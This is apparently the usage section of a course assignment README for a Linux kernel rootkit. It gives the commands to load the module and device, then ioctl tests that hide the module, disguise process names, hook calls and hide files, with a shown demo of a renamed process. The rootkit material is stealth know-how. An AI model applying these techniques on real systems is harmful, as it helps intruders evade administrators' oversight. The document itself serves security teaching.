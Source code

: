 ```c=
...
out:
	kfree(kdirent);
	return ret;
}
```


## How to use this LKM
### Load My LKM
```bash=
make
sudo insmod rootkit.ko
dmesg | tail
# the following command based on the major number for your device number
sudo mknod /dev/rootkit c xxx 0
```
### Generate files for testing
```bash=
# generate userTest, NTUST, MIT, hsuckd executable files
make generateTestFile
```

```bash=
# Functions corresponding to each executable file in userTest.
$ sudo ./userTest 0 -> IOCTL_MOD_HIDE
$ sudo ./userTest 1 -> IOCTL_MOD_MASQ
$ sudo ./userTest 2 -> IOCTL_MOD_HOOK
$ sudo ./userTest 3 -> IOCTL_FILE_HIDE
```

### Hide/Unhide module (10%)
```bash=
# 0 is the hide/unhiden module function 
sudo ./userTest 0
```

### Masquerade process name (30%)
```bash=
# execute the program
./NTUST
./MIT

# see their pid and name
ps ao pid,comm

# Trigger Masquerade process name
sudo ./userTest 1

# see their pid and name
ps ao pid,comm

# you will find NTUST -> NTU
# but MIT didn't change to standardford
# because the length of the new_name string is longer than the orig_name. 
```
